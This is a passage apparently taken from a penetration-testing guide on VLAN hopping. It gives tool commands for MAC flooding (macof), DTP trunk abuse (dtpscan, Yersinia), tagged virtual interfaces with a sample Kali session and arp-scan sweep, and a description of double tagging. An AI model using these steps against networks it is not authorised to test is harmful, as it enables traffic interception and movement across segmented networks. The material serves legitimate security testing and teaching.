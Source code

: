 macof -i <interface>

In modern switches this vulnerability has been fixed.
802.1Q VLAN
Dynamic Trunking

Many switches support the Dynamic Trunking Protocol (DTP) by default, however, which an adversary can abuse to emulate a switch and receive traffic across all VLANs. The tool dtpscan.sh can sniff an interface and reports if switch is in Default mode, trunk, dynamic, auto or access mode (this is the only one that would avoid VLAN hopping). The tool will indicate if the switch is vulnerable or not.

If it was discovered that the the network is vulnerable, you can use Yersinia to launch an "enable trunking" using protocol "DTP" and you will be able to see network packets from all the VLANs. 

apt-get install yersinia #Installation
yersinia -I #Interactive mode
#In interactive mode you will need to select a interface first
#Then, you can select the protocol to attack using letter "g"
#Finally, you can select the attack using letter "x"

## Attacking specific VLANs

Once you known VLAN IDs and IPs values,you can configure a virtual interface to attack a specific VLAN.
If DHCP is not available, then use ifconfig to set a static IP address.

root@kali:~# modprobe 8021q
root@kali:~# vconfig add eth1 250
Added VLAN with VID == 250 to IF -:eth1:-
root@kali:~# dhclient eth1.250
Reloading /etc/samba/smb.conf: smbd only.
root@kali:~# ifconfig eth1.250
eth1.250  Link encap:Ethernet  HWaddr 00:0e:c6:f0:29:65
          inet addr:10.121.5.86  Bcast:10.121.5.255  Mask:255.255.255.0
          inet6 addr: fe80::20e:c6ff:fef0:2965/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:19 errors:0 dropped:0 overruns:0 frame:0
          TX packets:13 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:0
          RX bytes:2206 (2.1 KiB)  TX bytes:1654 (1.6 KiB)
​
root@kali:~# arp-scan -I eth1.250 10.121.5.0/24

## Automatic VLAN Hopper

The discussed attack of Dynamic Trunking and creating virtual interfaces an discovering hosts inside other VLANs are automatically performed by the tool: https://github.com/nccgroup/vlan-hopping---frogger​
Double Tagging

If an attacker knows the value of the MAC, IP and VLAN ID of the victim host, he could try to double tag a frame with its designated VLAN and the VLAN of the victim and send a packet. As the victim won't be able to connect back with the attacker, so the best option for the attacker is communicate via UDP to protocols than can perform some interesting actions (like SNMP).
